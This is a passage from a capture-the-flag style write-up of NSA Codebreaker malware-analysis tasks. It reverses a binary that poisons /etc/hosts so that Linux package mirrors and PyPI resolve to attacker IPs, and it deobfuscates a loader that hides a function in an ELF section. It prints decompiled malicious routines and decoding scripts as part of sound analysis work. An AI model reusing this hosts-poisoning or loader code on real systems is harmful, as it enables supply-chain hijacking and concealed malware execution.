  local_40 = malloc(0x200);
  local_38 = __dest;
  if (local_40 == (void *)0x0) {
    perror("malloc tok");
    free(__dest);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while (*local_38 != '\0') {
    while ((*local_38 != '\0' && (iVar2 = FUN_00101299(*local_38), iVar2 != 0))) {
      local_38 = local_38 + 1;
    }
    if (*local_38 == '\0') break;
    pvVar3 = local_40;
    if (local_48 == local_50) {
      pvVar3 = realloc(local_40,local_50 << 4);
      local_50 = local_50 * 2;
      if (pvVar3 == (void *)0x0) {
        perror("realloc tok");
        free(local_40);
        free(__dest);
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
    }
    local_40 = pvVar3;
    uVar1 = local_48 + 1;
    *(char **)(local_48 * 8 + (long)local_40) = local_38;
    while ((*local_38 != '\0' && (iVar2 = FUN_00101299(*local_38), iVar2 == 0))) {
      local_38 = local_38 + 1;
    }
    local_48 = uVar1;
    if (*local_38 != '\0') {
      *local_38 = '\0';
      local_38 = local_38 + 1;
    }
  }
  puts("opening /etc/hosts");
  __stream = fopen("/etc/hosts","a");
  if (__stream != (FILE *)0x0) {
    for (local_30 = 0; local_30 < local_48 >> 1; local_30 = local_30 + 1) {
      fprintf(__stream,"%s %s\n",*(undefined8 *)((long)local_40 + local_30 * 0x10),
              *(undefined8 *)((long)local_40 + local_30 * 0x10 + 8));
    }
    fclose(__stream);
    if ((local_48 & 1) != 0) {
      fprintf((FILE *)0x0,"warning: weird token count (%zu); ignoring last... check this fff\n",
              local_48);
    }
    free(local_40);
    free(__dest);
    return;
  }
  perror("fopen /etc/hosts");
  free(local_40);
  free(__dest);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

And also a call to `system` to restart `dnsmasq`

```c
system("service dnsmasq restart");
```

It is very clear what this binary does. It reads some sort of file into memory, which it assumes is in base64 format, decodes it, decrypts the result, writes the result to `/etc/hosts`, and restarts `dnsmasq`

This is pretty obviously a malware, with the base64 encoded file very likely containing encrypted malicious entries to have your system resolve domain names to malicious IPs. 

The prompt asks us to "submit a complete list of affected IPs and FQDNs, one per line", so we have to mimic this base64 decoding and decryption logic and use it on a file that was inputted to this malicious binary. 

The question is, where do we find said file? Well remember in the Ghidra disassembly, it writes the inputted file to memory. So the file's contents are very likely in our memory dump, specifically in one of the virtual memory sections we had already dumped for the `1552` process. 

With the below `grep` command, we can search for any base64 content since, as we know, the binary reads in a base64 encoded file

```
grep -R --binary-files=text -E '[A-Za-z0-9+/]{20,}={0,2}' .
```



The full base64 was in the contents of the malicious binary itself, or more accurately, one of the memory sections that it consists of, which was part of the `cat` command from earlier. The actual memory dump file it was in was `pid.1552.vma.0x557c6ca3d000-0x557c6ca3e000.dmp`.




Now we have the inputted file contents! Specifically:

```text
My2sZXIL9BrnA2AkQMrZFjmo39O7SHzhl05PAkyQGOkXbxlxB/w+01koZEnH93AS94B5HdlPiN8eAjh83Aipe0kVdv0U3MtNaCoTs4g0HOL6HkqEErmqlYeqAKo2jVJWSBCSEo7bcEf3w3S2CgKv/I+GZrMUKRg6Xvl5sa88Zd3aYagaKJjUcXjARJDV6PLIZIU+lqi2lsRMwShywo8mF7tyyMltNLinfKU0HiYDLJ0fqb2Cj3Eh3ka+zTQe+YYPwV5NGl3aIukD8ILPpaJZ3x5aW0zwl3IK6JDMtnMw8RiS/67GVKZSt67PlhVZ3kKB4hhux7M2SJL+8sUQpXvA9de1zDHSE4qG1Y0KNPPca1ZNPaHZRw+Gj5e0ELAau5qHo21l632in9L8cl/r3Fp9JCGza7G8nrSSuR+BNveAkNkKZO6WSCLX8ht6+PBuPWtzlE+mVCZ2Gp92ru0+KHMV6s0mTaXHNmzlb/+j3pzw+hbkE5b3sbQl+jV/huEOe9Jat/AFFOWwB4AldlQ7EKoAz9NOHlRM9TKZkT9w3cAioHU8dnBQBewS4pz5m4Bms2B125Qrfov6DVSxtzF7/3W0l7qCtR2xAVF5Lx9TrnXX02dM/ttnpjk+aDuyHoM/9sbU+etN2WooIyLYnmtLq9Q7D4yqf7AkUh5w/Q7/DwJ1Z6GkN7R4PjVSvtAhQNyhqtJSvXaXDGsBcIpzkw4TSgnIsTFKnu0Nd/jHRi7m5/TSCKsN7M312Uiuea8jCFt6991xR8/45ZlA0FIP0I63kjebO+PZyuEmFYLkMgSwgTEXqqs0aDgyqGuIkq2DqHnIVe8uYGsy5ZljGeqCJ3qdDcnbsPmJhnG8TjhABWT5NafsISXEpVQqgs08NcOII/dDADNUI9Eoyyup8aKzNPFVVe6NYT3JUL3iqrhzMo82je3D5L1MiF5MwYk6NJtS/8llJ5HLT9wEWBs8FKQKuvaKl7zkJOtAQfm+FCWfpgYbRh+c3ULnJhgNIHvWCb3g6/gxdMmqUDiWrhU37TqxoumHGfc6za+Gnrz9ZalyPyZYp9hwFMK76MdJZLdfxaXjlnmJc57B1swGDJT6P01ZNqTUWy6047OkI8Ac5JrpivUWwHq35eyaVmfthXQUA3jjaOGudXRWS+xb+x11NlnPIO/ETmw2BbGTdBDSzMqbF4w6aVdfbbIOl2mxh4yLEDT012lJ9cxrtBcAgY++8VzNZVU/KA/bX8eTTEYFWKDCYlT9vQEIuWiEjPC01ybGacXpqKXsLqJVDbahTymWWvv7TRmQh1ycfgR/C2HZTfq3YGuFwX/nG3qRiXBulQzJx5rGRaBZsUcvaBYZ8ziFzz4/x+wJb4Hs9vQqJ7Uy7NnP/dJ7+whVfX//6TDwTHXU5VhgvJgbCkpjvxGBdquHr5jCfvgheDk4+48nEaaTx+R2X5GDF347WrITvVlyR0+J2FvCB3hmGPmTQjDyjtfDVI5UtNeo16lMim/t6/j+NkXJ+Sxfv8kNafC+MTIoYpBonWkDSje0XJCeFjxuFcu8TirRrO2vZvR/LBZNeTeRTqIjQxUBiF+EpAc7haRJJ9nDNjoqYtBdr+bO69ASqzN88P39vQ00jbgRWOLjT4IyPVITYiCVetjizcqNUdccQbSwRAv/LdaEew==
```

I save the contents into a file I name `sussy`

Now time to mimic the decoding and decryption that the binary does. I just use Python for simplicity

```python
import struct
import base64

def decrypt(data: bytes, key: int) -> bytes:
   
    decrypted = bytearray(data)
    local_14 = key & 0xFFFFFFFF
    local_17 = key & 0xFF  # least significant byte

    for i in range(len(decrypted)):
        local_14 = (local_14 + 0x722633ad) & 0xFFFFFFFF  # mimic 32-bit overflow
        b = decrypted[i]
        decrypted[i] = b ^ ((local_14 >> 13) & 0xFF) ^ (local_14 & 0xFF) ^ local_17
        local_17 = b

    return bytes(decrypted)

# Path to file
filename = "sussy"

# Step 1: read the file into memory
with open(filename, "rb") as f:
    file_data = f.read()

# Step 2: decode Base64
decoded_payload = base64.b64decode(file_data)

# Suppose `decoded_payload` is the base64-decoded bytes
key = struct.unpack("<I", decoded_payload[:4])[0]  # little-endian
encrypted_data = decoded_payload[4:]

plaintext = decrypt(encrypted_data, key)
print(plaintext.decode(errors="ignore"))

text = plaintext.decode('utf-8', errors='ignore')

# Split into tokens (whitespace-separated)
tokens = text.split()

print("-----------------------")
print("This would get written to /etc/hosts:\n")

# Pair each consecutive two tokens
for i in range(0, len(tokens), 2):
    if i + 1 < len(tokens):
        ip = tokens[i]
        host = tokens[i + 1]
        print(f"{ip} {host}")
```

If we run this script, we get:

```
203.0.113.245 http.kali.org 203.0.113.245 security.ubuntu.com 203.0.113.41 mirrors.alpinelinux.org 203.0.113.32 pypi.io 203.0.113.245 archive.ubuntu.org 203.0.113.245 archive.archlinux.org 203.0.113.245 cache.nixos.org 203.0.113.41 mirrors.rpmfusion.org 203.0.113.245 dl-cdn.alpinelinux.org 203.0.113.245 packages.linuxmint.com 203.0.113.245 ftp.us.debian.org 203.0.113.32 files.pythonhosted.org 203.0.113.32 pypi.org 203.0.113.41 mirrors.fedoraproject.org 203.0.113.41 xmirror.voidlinux.org 203.0.113.245 dl.rockylinux.org 203.0.113.245 download1.rpmfusion.org 203.0.113.41 mirrors.rockylinux.org 203.0.113.245 download.opensuse.org 203.0.113.245 security.ubuntu.org 203.0.113.245 archive.ubuntu.com 203.0.113.245 ports.ubuntu.org 203.0.113.245 distfiles.gentoo.org 203.0.113.245 ports.ubuntu.com 203.0.113.32 pypi.python.org 203.0.113.41 mirror.stream.centos.org 203.0.113.41 mirror.rackspace.com 203.0.113.41 mirrors.opensuse.org 203.0.113.245 deb.debian.org 203.0.113.245 security.debian.org 203.0.113.245 repo-default.voidlinux.org 203.0.113.245 repo.almalinux.org 203.0.113.245 dl.fedoraproject.org 203.0.113.245 repos.opensuse.org 203.0.113.41 mirrors.kernel.org 203.0.113.41 geo.mirror.pkgbuild.com 203.0.113.245 us.archive.ubuntu.com
-----------------------
This would get written to /etc/hosts:

203.0.113.245 http.kali.org
203.0.113.245 security.ubuntu.com
203.0.113.41 mirrors.alpinelinux.org
203.0.113.32 pypi.io
203.0.113.245 archive.ubuntu.org
203.0.113.245 archive.archlinux.org
203.0.113.245 cache.nixos.org
203.0.113.41 mirrors.rpmfusion.org
203.0.113.245 dl-cdn.alpinelinux.org
203.0.113.245 packages.linuxmint.com
203.0.113.245 ftp.us.debian.org
203.0.113.32 files.pythonhosted.org
203.0.113.32 pypi.org
203.0.113.41 mirrors.fedoraproject.org
203.0.113.41 xmirror.voidlinux.org
203.0.113.245 dl.rockylinux.org
203.0.113.245 download1.rpmfusion.org
203.0.113.41 mirrors.rockylinux.org
203.0.113.245 download.opensuse.org
203.0.113.245 security.ubuntu.org
203.0.113.245 archive.ubuntu.com
203.0.113.245 ports.ubuntu.org
203.0.113.245 distfiles.gentoo.org
203.0.113.245 ports.ubuntu.com
203.0.113.32 pypi.python.org
203.0.113.41 mirror.stream.centos.org
203.0.113.41 mirror.rackspace.com
203.0.113.41 mirrors.opensuse.org
203.0.113.245 deb.debian.org
203.0.113.245 security.debian.org
203.0.113.245 repo-default.voidlinux.org
203.0.113.245 repo.almalinux.org
203.0.113.245 dl.fedoraproject.org
203.0.113.245 repos.opensuse.org
203.0.113.41 mirrors.kernel.org
203.0.113.41 geo.mirror.pkgbuild.com
203.0.113.245 us.archive.ubuntu.com
```

There we go! The answer is

```
203.0.113.245 http.kali.org
203.0.113.245 security.ubuntu.com
203.0.113.41 mirrors.alpinelinux.org
203.0.113.32 pypi.io
203.0.113.245 archive.ubuntu.org
203.0.113.245 archive.archlinux.org
203.0.113.245 cache.nixos.org
203.0.113.41 mirrors.rpmfusion.org
203.0.113.245 dl-cdn.alpinelinux.org
203.0.113.245 packages.linuxmint.com
203.0.113.245 ftp.us.debian.org
203.0.113.32 files.pythonhosted.org
203.0.113.32 pypi.org
203.0.113.41 mirrors.fedoraproject.org
203.0.113.41 xmirror.voidlinux.org
203.0.113.245 dl.rockylinux.org
203.0.113.245 download1.rpmfusion.org
203.0.113.41 mirrors.rockylinux.org
203.0.113.245 download.opensuse.org
203.0.113.245 security.ubuntu.org
203.0.113.245 archive.ubuntu.com
203.0.113.245 ports.ubuntu.org
203.0.113.245 distfiles.gentoo.org
203.0.113.245 ports.ubuntu.com
203.0.113.32 pypi.python.org
203.0.113.41 mirror.stream.centos.org
203.0.113.41 mirror.rackspace.com
203.0.113.41 mirrors.opensuse.org
203.0.113.245 deb.debian.org
203.0.113.245 security.debian.org
203.0.113.245 repo-default.voidlinux.org
203.0.113.245 repo.almalinux.org
203.0.113.245 dl.fedoraproject.org
203.0.113.245 repos.opensuse.org
203.0.113.41 mirrors.kernel.org
203.0.113.41 geo.mirror.pkgbuild.com
203.0.113.245 us.archive.ubuntu.com
```

Submitting this solves this task!

**Response**:
> Good work! Let's head back to NSA headquarters to continue with this analysis.

# Task 4 - Unpacking Insight - (Malware Analysis)

> Once back at NSA the team contacts the NSA liaison at FBI to see if they have any information about what was discovered in the configuration data. FBI informs us that the facility registered to host that domain is on a watchlist for suspected criminal activity. With this tip, the FBI acquires a warrant and raids the location. Inside the facility, the server is discovered along with a suspect. The suspect is known to the FBI as a low-level malware actor. During questioning, they disclose that they are providing a service to host malware for various cybercrime groups, but recently they were contacted by a much more secretive and sophisticated customer. While they don't appear to know anything about who is paying for the service, they provide the FBI with the malware that was hosted.

> Back at NSA, you are provided with a copy of the file. There is a lot of high level interest in uncovering who facilitated this attack. The file appears to be obfuscated.

> You are tasked to work on de-obfuscating the file and report back to the team.


> Downloads: obfuscated file (suspicious)

> Prompt: Submit the file path the malware uses to write a file

### Solve:

This one was probably my favorite task. 

If you read my other write ups (well, just my NSA Codebreaker 2024 write up really), you know that I usually use a combination of Ghidra and Binja. For this task, Binja ended up being more useful at first (or at least, sort of easier to read the disassembly compared to what Ghidra was giving me), and then I ended off the task with Ghidra. 

First, we can load the binary, `suspicious`, into Binja and start looking at what we're working with

I do just want to preface that I did this entire task statically. It is possible to do it dynamically, or a little bit of both, but the binary has multiple debugger checks, and to just avoid dealing with any of that, I went with a purely static approach. Also, I figured it'd be safer considering the fact that the binary is very likely malware

> Note that the below disassembly snippets already show renamed function, variable, and label names as a result of my analysis

Beginning with main, immediately we see some really weird stuff going on

```c
00002680  int32_t main(int32_t argc, char** argv, char** envp)

000026b6      void* var_190
000026b6      int64_t* r12 = &var_190
000026c2      double zmm1
000026c2      double var_228 = zmm1
000026d1      void* fsbase
000026d1      int64_t rax = *(fsbase + 0x28)
000026e4      int128_t obfuscated_blob1
000026e4      __builtin_memcpy(dest: &obfuscated_blob1, src: "\x4f\x5e\x0c\x5a\x17\x17\x07\x5a\x00\x5b\x0d\x42\x40\x0c\x1a\x15\x57\x5b\x0b\x56\x05\x4d\x0c\x5c\x08\x00", n: 0x1a)
000026fb      int32_t s
000026fb      __builtin_memset(&s, c: 0, n: 0x3c)
00002776      int128_t brainrot1
00002776      __builtin_strcpy(dest: &brainrot1, src: "mrbeast_really_said_lets_give_random_people_skibidi_toilet_merchandise_for_free")
00002786      char const* const var_158 = "sudoers"
000027ce      int128_t obfuscated_blob2
000027ce      __builtin_memcpy(dest: &obfuscated_blob2, src: "\x43\x1b\x0c\x0c\x15\x5d\x17\x30\x1c\x16\x15\x1e\x19\x1a\x2b\x1c\x13\x1a\x4a\x38\x00\x0a\x16\x12\x33\x00", n: 0x1a)
000027ee      int128_t brainrot2
000027ee      __builtin_strcpy(dest: &brainrot2, src: "speed_running_through_ohio_while_the_skibidi_toilet_song_plays_on_repeat")
0000283e      int128_t obfuscated_blob3
0000283e      __builtin_memcpy(dest: &obfuscated_blob3, src: "\x5d\x12\x16\x16\x3b\x2c\x17\x16\x1b\x1c\x0c\x31\x05\x2a\x12\x0e\x17\x1d\x00", n: 0x13)
0000285c      int32_t var_168[0x4] = _mm_unpacklo_epi64(zx.o("users"), "temp_users")
00002864      int32_t* rbx = &s
00002877      int32_t result
00002877      char* var_1a0
00002877      int64_t var_170
00002877      int64_t r14_1

...
...
A lot more code after this
...
...
```

This binary is obfuscated alright, but it seems to be obfuscated with brainrot. 

There's a lot of red herrings here (the `main` function is pretty long), which is expected given the obfuscation. I'll just skip to the important parts. 

Firstly, in the `main` function, there's some weird sections like below

```c
0000311d          r14_1 = (*"to griddy dance because this man…")[0].q
00003124          r15_3 = rax_44
00003124          
0000312a          if (rax_44 == 0)
0000312a              goto label_327e
0000312a          
0000314e          *rax_44 = obfuscated_blob3
00003158          *(r15_3 + 0xf) = obfuscated_blob3:0xf.d
00003158          
00003161          if (r14_1(&brainrot2, 0x49, r15_3, 0x13) != 0)
00003161              goto cooked
```

Firstly, since you'll see it a lot later on, `cooked` is a label that essentially just contains some code that ends / exits the program. Whenever the binary reaches some sort of fail state, or you fail a debugger check, it jumps to this label.

Ignoring my renaming of some labels, variables, and functions, the interesting thing is `r14_1` being assigned to what looks to be a value extracted from the memory of a brainrot string literal.

```c
r14_1 = (*"to griddy dance because this man…")[0].q
```

Then that is used later on as a function call

```c
if (r14_1(&brainrot2, 0x49, r15_3, 0x13) != 0)
    goto cooked
```

Although Binja presents the value as coming from a string literal, the code is actually reinterpreting the first 8 bytes of that memory as a function pointer. This function pointer is then invoked indirectly, effectively hiding the real function being called and complicating our static analysis.

Well, what exactly is the function it's trying to call?

We can piece that together from some context clues. My variable renaming sort of spoils it, but we can see that one of the parameters is `&brainrot2`

Also, `r15_3` is assigned to what I call an obfuscated blob. 

These can actually be seen at the beginning of `main` that I showed earlier

```c
000026e4      int128_t obfuscated_blob1
000026e4      __builtin_memcpy(dest: &obfuscated_blob1, src: "\x4f\x5e\x0c\x5a\x17\x17\x07\x5a\x00\x5b\x0d\x42\x40\x0c\x1a\x15\x57\x5b\x0b\x56\x05\x4d\x0c\x5c\x08\x00", n: 0x1a)
000026fb      int32_t s
000026fb      __builtin_memset(&s, c: 0, n: 0x3c)
00002776      int128_t brainrot1
00002776      __builtin_strcpy(dest: &brainrot1, src: "mrbeast_really_said_lets_give_random_people_skibidi_toilet_merchandise_for_free")
00002786      char const* const var_158 = "sudoers"
000027ce      int128_t obfuscated_blob2
000027ce      __builtin_memcpy(dest: &obfuscated_blob2, src: "\x43\x1b\x0c\x0c\x15\x5d\x17\x30\x1c\x16\x15\x1e\x19\x1a\x2b\x1c\x13\x1a\x4a\x38\x00\x0a\x16\x12\x33\x00", n: 0x1a)
000027ee      int128_t brainrot2
000027ee      __builtin_strcpy(dest: &brainrot2, src: "speed_running_through_ohio_while_the_skibidi_toilet_song_plays_on_repeat")
0000283e      int128_t obfuscated_blob3
0000283e      __builtin_memcpy(dest: &obfuscated_blob3, src: "\x5d\x12\x16\x16\x3b\x2c\x17\x16\x1b\x1c\x0c\x31\x05\x2a\x12\x0e\x17\x1d\x00", n: 0x13)
```

Basically, there are variables containing brainrot strings, and variables containing what appear to be obfuscated blobs

Whatever function is being called, my assumption was that it is somehow using the brainrot strings to deobfuscate the obfuscated blobs

Going through the functions in Binja, we are able to find a likely culprit. I discerned this since the function signature matched, and also, it's pretty obvious that it's performing some kind of XOR logic

I called the function `potential_deobf`

```c
000033a0  int64_t potential_deobf(int64_t arg1, int64_t arg2, char* arg3, int64_t arg4)

000033b2      if (arg1 == 0 || arg3 == 0)
000033ed          return 1
000033ed      
000033bc      int64_t i = 0
000033bc      
000033c2      if (arg4 != 1)
000033e0          do
000033d5              arg3[i] ^= *(arg1 + modu.dp.q(0:i, arg2 - 1))
000033d9              i += 1
000033e0          while (arg4 - 1 != i)
000033e0      
000033e4      return 0
```

So we can use this function to try to deobfuscate some of those blobs. 

Also just as a note, the first blob for some reason doesn't use this function, and the deobfuscation logic is just done completely in `main`

```c
00002ca3          int128_t obfuscated_blob1_1 = obfuscated_blob1
00002cb4          *rax_19 = obfuscated_blob1
00002cb7          *(rax_19 + 0xa) = obfuscated_blob1_1
00002cbf          uint128_t zmm0_2 = *rax_19 ^ xor_key1[0].o
00002cc7          *(rax_19 + 0x18) ^= 0x66
00002ccb          *rax_19 = zmm0_2
00002cd7          rax_19[1].q = (zx.o(rax_19[1].q) ^ zx.o(0x3365396432623736)).q
```

A little weird, but we can work with it. I ended up making the below Python script

```python

### FOR BLOB 1 ###

def xor_deobfuscate(data_bytes, key_bytes):
    return bytes([b ^ key_bytes[i % len(key_bytes)] for i, b in enumerate(data_bytes)])

hex_blob = b"\x4f\x5e\x0c\x5a\x17\x17\x07\x5a\x00\x5b\x0d\x42\x40\x0c\x1a\x15\x57\x5b\x0b\x56\x05\x4d\x0c\x5c\x08\x00"

# Key for the first blob
xor_key = b"a7b3c9d2e8f15a4cO^"

# Deobfuscate:
deobfuscated = xor_deobfuscate(hex_blob, xor_key)
print(deobfuscated.decode('utf-8', errors='replace'))  # Or just print(deobfuscated) for raw bytes

## FOR BLOB 2 AND 3 ###

def rolling_xor_deobfuscate(key, key_len, data, data_len):
    out = bytearray(data)
    for i in range(data_len - 1):  # matches `if (arg4 != 1)` logic
        out[i] ^= key[i % (key_len - 1)]
    return out

# Blob 2
key = b"mrbeast_really_said_lets_give_random_people_skibidi_toilet_merchandise_for_free"
key_len = 0x50
blob2 = b"\x43\x1b\x0c\x0c\x15\x5d\x17\x30\x1c\x16\x15\x1e\x19\x1a\x2b\x1c\x13\x1a\x4a\x38\x00\x0a\x16\x12\x33\x00"
data_len = 0x1a

# Deobfuscate
result = rolling_xor_deobfuscate(key, key_len, blob2, data_len)
print(result.decode("utf-8", errors="replace"))

# Blob 3
key = b"speed_running_through_ohio_while_the_skibidi_toilet_song_plays_on_repeat"
key_len = len(key)  
blob3 = b"\x5d\x12\x16\x16\x3b\x2c\x17\x16\x1b\x1c\x0c\x31\x05\x2a\x12\x0e\x17\x1d\x00"
data_len = len(blob3)  

# Deobfuscate
result = rolling_xor_deobfuscate(key, key_len, blob3, data_len)
print(result.decode('utf-8', errors='replace'))
```

Running this results in:

```
.init.checksum.vjag~oel2
.init.constructors.global
.bss_secure_buffer
```

Ok interesting, these blobs are deobfuscating into what appears to be the names of sections of the program itself 

#### Understanding where the Deobfuscation Comes From

Before we move on, one thing that was puzzling was that the deobfuscation function has no references, both in Binja and Ghidra. I knew the malware was trying to hide how it was calling it, but it was odd that I couldn't find how exactly the malware was getting around to calling it in the first place. Ghidra ended up helping me figure out how the malware is doing this, and what the `.init.checksum.vjag~oel2` section is used for. 

Ghidra disassembled the binary differently, and instead of treating the function calls to what we assume to be the deobfuscation function by treating the first 8 bytes of a string as a memory address, as shown below

```c
r14_1 = (*"to griddy dance because this man…")[0].q

...

if (r14_1(&brainrot2, 0x49, r15_3, 0x13) != 0)
    goto cooked
```

It treats it as a `DAT` which is used as a function pointer. In our case it is named `DAT_001231c8`

```c
pcVar4 = DAT_001231c8;
if (__ptr == (undefined8 *)0x0) goto LAB_0010327e;
*__ptr = CONCAT44(uStack_144,local_148);
__ptr[1] = CONCAT44(uStack_13c,uStack_140);
*(uint *)((long)__ptr + 0xf) = CONCAT31((undefined3)uStack_138,uStack_13c._3_1_);
iVar8 = (*pcVar4)(&local_e8,0x49,__ptr,0x13);
```

If we look at `DAT_001231c8` in Ghidra to see what address it stores so that we can figure out what function it's pointing to, it's just all 0 bytes. This means it gets filled in at runtime

We find that `DAT_001231c8` gets filled in with a function that I name `fill_in_DAT`, which is called in `main`

```c
if ((iVar8 != 0) || (iVar8 = fill_in_DAT(*param_2,__ptr,&DAT_001231c8,&local_170), iVar8 != 0))
```

```c

undefined4 fill_in_DAT(undefined8 param_1,undefined8 param_2,void **param_3,undefined8 *param_4)

{
  undefined8 uVar1;
  long lVar2;
  int iVar3;
  void *__dest;
  undefined4 uVar4;
  void *__ptr;
  long in_FS_OFFSET;
  FILE *local_50;
  void *local_48;
  undefined8 local_40;
  long local_38;
  long local_30;
  
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  local_50 = (FILE *)0x0;
  local_48 = (void *)0x0;
  local_40 = 0;
  local_38 = 0;
  iVar3 = open_file(&local_50,"r",param_1);
  if ((iVar3 == 0) &&
     (iVar3 = read_into_memory(local_50,&local_48,&local_40), __ptr = local_48, iVar3 == 0)) {
    uVar4 = 1;
    iVar3 = FUN_00105830(param_2,local_48,local_40,&local_38);
    lVar2 = local_38;
    if ((iVar3 != 0) ||
       ((local_38 == 0 ||
        (__dest = mmap((void *)0x0,*(size_t *)(local_38 + 0x20),3,0x22,-1,0), __ptr = local_48,
        __dest == (void *)0xffffffffffffffff)))) goto LAB_00105982;
    memcpy(__dest,(void *)(*(long *)(lVar2 + 0x18) + (long)local_48),*(size_t *)(lVar2 + 0x20));
    iVar3 = mprotect(__dest,*(size_t *)(lVar2 + 0x20),5);
    if (iVar3 == 0) {
      uVar1 = *(undefined8 *)(lVar2 + 0x20);
      *param_3 = __dest;
      *param_4 = uVar1;
      uVar4 = 0;
      __ptr = local_48;
      goto LAB_00105982;
    }
    munmap(__dest,*(size_t *)(lVar2 + 0x20));
  }
  uVar4 = 1;
  __ptr = local_48;
LAB_00105982:
  if (__ptr != (void *)0x0) {
    free(__ptr);
  }
  if (local_50 != (FILE *)0x0) {
    fclose(local_50);
  }
  if (local_30 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar4;
}
```

There is also a function called in here, `FUN_00105830`, which validates to see if the input is an ELF and searches for a certain section based on its name. The section name it is looking for is passed in as `param_2` to `fill_in_DAT`, and is `param_1` for `FUN_00105830`

```c
undefined4 FUN_00105830(char *param_1,int *param_2,undefined8 param_3,uint **param_4)

{
  ushort uVar1;
  long lVar2;
  long lVar3;
  int iVar4;
  uint *puVar5;
  
  if (param_2 == (int *)0x0 || param_4 == (uint **)0x0) {
    return 1;
  }
  if (param_1 == (char *)0x0) {
    return 1;
  }
  if ((((*param_2 == 0x464c457f) && (*(char *)(param_2 + 1) == '\x02')) &&
      (lVar2 = *(long *)(param_2 + 10), lVar2 != 0)) &&
     (uVar1 = *(ushort *)(param_2 + 0xf), uVar1 != 0)) {
    lVar3 = *(long *)((long)param_2 + (ulong)*(ushort *)((long)param_2 + 0x3e) * 0x40 + lVar2 + 0x18
                     );
    if (uVar1 != 1) {
      puVar5 = (uint *)((long)param_2 + lVar2 + 0x40);
      do {
        iVar4 = strcmp((char *)((ulong)*puVar5 + lVar3 + (long)param_2),param_1);
        if (iVar4 == 0) {
          *param_4 = puVar5;
          return 0;
        }
        puVar5 = puVar5 + 0x10;
      } while (puVar5 != (uint *)((long)param_2 + (ulong)(uVar1 - 2) * 0x40 + lVar2 + 0x80));
      return 1;
    }
  }
  return 1;
}
```

So what `fill_in_DAT` is doing is that it reads an ELF file into memory, searches its section headers for a specific section name (with `FUN_00105830`), maps the corresponding bytes into executable memory, and stores a function pointer to the start of that mapped region. In our case, that function pointer is `DAT_001231c8`

We are only given this one binary, so we can assume that the ELF it is getting the section from is itself. Now the question is what is the section? Well, it's `.init.checksum.vjag~oel2`. If we look at the call to `fill_in_DAT` again

```c
fill_in_DAT(*param_2,__ptr,&DAT_001231c8,&local_170)
```

`__ptr` is the second parameter, which we already stated is the section it is looking for. Ghidra makes the instructions look a little more hectic so I won't paste it here, but `__ptr` essentially contains the contents of the first obfuscated blob deobfuscation that we looked at in Binja

```c
00002ca3          int128_t obfuscated_blob1_1 = obfuscated_blob1
00002cb4          *rax_19 = obfuscated_blob1
00002cb7          *(rax_19 + 0xa) = obfuscated_blob1_1
00002cbf          uint128_t zmm0_2 = *rax_19 ^ xor_key1[0].o
00002cc7          *(rax_19 + 0x18) ^= 0x66
00002ccb          *rax_19 = zmm0_2
00002cd7          rax_19[1].q = (zx.o(rax_19[1].q) ^ zx.o(0x3365396432623736)).q
```

So yes, the section is `.init.checksum.vjag~oel2`

Okay, well, that's not entirely true. It's actally `.init.checksum.validation`, it appears that our deobfuscation wasn't completely perfect, but looking at the sections in Ghidra (or `readelf`), that's the only section that makes sense considering our partial deobfuscation. 

Now it may sound weird to have a function pointer pointing to executable memory containing the data at some random section rather than a traditional function, but this works if the section begins with executable code. When the function pointer is invoked, execution starts at the first instruction that was in the section. 

Well, is there executable code at `.init.checksum.validation`? 

We have to force Ghidra to disassemble the instructions, but indeed, `.init.checksum.validation` begins with

```c
undefined8 UndefinedFunction_0012309d(long param_1,long param_2,long param_3,long param_4)

{
  undefined8 uVar1;
  int iStack_c;
  
  if ((param_1 == 0) || (param_3 == 0)) {
    uVar1 = 1;
  }
  else {
    for (iStack_c = 0; (ulong)(long)iStack_c < param_4 - 1U; iStack_c = iStack_c + 1) {
      *(byte *)(param_3 + iStack_c) =
           *(byte *)(param_3 + iStack_c) ^
           *(byte *)(param_1 + (ulong)(long)iStack_c % (param_2 - 1U));
    }
    uVar1 = 0;
  }
  return uVar1;
}
```

I showed it before in Binja, but we can also find the deobfuscation function in Ghidra. Let's compare this function from `.init.checksum.validation` to that

```c

undefined8 deobfuscate(long param_1,long param_2,long param_3,long param_4)

{
  ulong uVar1;
  
  if ((param_1 != 0) && (param_3 != 0)) {
    uVar1 = 0;
    if (param_4 != 1) {
      do {
        *(byte *)(param_3 + uVar1) =
             *(byte *)(param_3 + uVar1) ^ *(byte *)(param_1 + uVar1 % (param_2 - 1U));
        uVar1 = uVar1 + 1;
      } while (param_4 - 1U != uVar1);
    }
    return 0;
  }
  return 1;
}
```

